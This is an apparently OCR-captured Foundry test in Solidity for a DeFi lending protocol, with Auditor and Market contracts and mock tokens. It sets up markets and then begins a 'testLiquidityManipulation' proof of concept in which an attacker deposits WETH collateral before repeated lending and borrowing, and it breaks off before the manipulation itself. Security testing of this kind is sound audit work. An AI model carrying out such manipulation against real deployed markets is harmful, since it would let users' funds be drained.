 ```javascript
  MockPriceFeed internal daiPriceFeed;
  MockInterestRateModel internal irm;

  function setUp() external {
    vm.warp(0);

    MockERC20 asset = new MockERC20("DAI", "DAI", 18);
    weth = new MockERC20("WETH", "WETH", 18);

    auditor = Auditor(address(new ERC1967Proxy(address(new Auditor(18)), "")));
    auditor.initialize(Auditor.LiquidationIncentive(0.09e18, 0.01e18));
    vm.label(address(auditor), "Auditor");

    irm = new MockInterestRateModel(0.1e18);

    market = Market(address(new ERC1967Proxy(address(new Market(asset, auditor)), "")));
    market.initialize(
      "DAI", 3, 1e18, InterestRateModel(address(irm)), 0.02e18 / uint256(1 days), 1e17, 0, 0.0046e18, 0.42e18
    );
    vm.label(address(market), "MarketDAI");
    daiPriceFeed = new MockPriceFeed(18, 1e18);

    marketWETH = Market(address(new ERC1967Proxy(address(new Market(weth, auditor)), "")));
    marketWETH.initialize(
      "WETH", 12, 1e18, InterestRateModel(address(irm)), 0.02e18 / uint256(1 days), 1e17, 0, 0.0046e18, 0.42e18
    );
    vm.label(address(marketWETH), "MarketWETH");

    auditor.enableMarket(market, daiPriceFeed, 0.8e18);
    auditor.enableMarket(marketWETH, IPriceFeed(auditor.BASE_FEED()), 0.9e18);
    auditor.enterMarket(marketWETH);

    vm.label(BOB, "Bob");
    vm.label(ALICE, "Alice");
    asset.mint(BOB, 50_000 ether);
    asset.mint(ALICE, 50_000 ether);
    asset.mint(address(this), 1_000_000 ether);
    weth.mint(address(this), 1_000_000 ether);

    asset.approve(address(market), type(uint256).max);
    weth.approve(address(marketWETH), type(uint256).max);
    vm.prank(BOB);
    asset.approve(address(market), type(uint256).max);
    vm.prank(BOB);
    weth.approve(address(marketWETH), type(uint256).max);
    vm.prank(ALICE);
    asset.approve(address(market), type(uint256).max);
  }

  function testLiquidityManipulation() external {
    // Attacker deposits a significant amount of WETH as collateral
    uint256 initialDeposit = 1_000_000 ether;
    weth.mint(address(this), initialDeposit);
    weth.approve(address(marketWETH), initialDeposit);
    marketWETH.deposit(initialDeposit, address(this));

    // Get the initial liquidity of the WETH market
    uint256 initialLiquidity = marketWETH.totalAssets();

    // Perform repeated lending and borrowing in a single transaction
    uint256 manipulationAmount = 100_000 ether;
```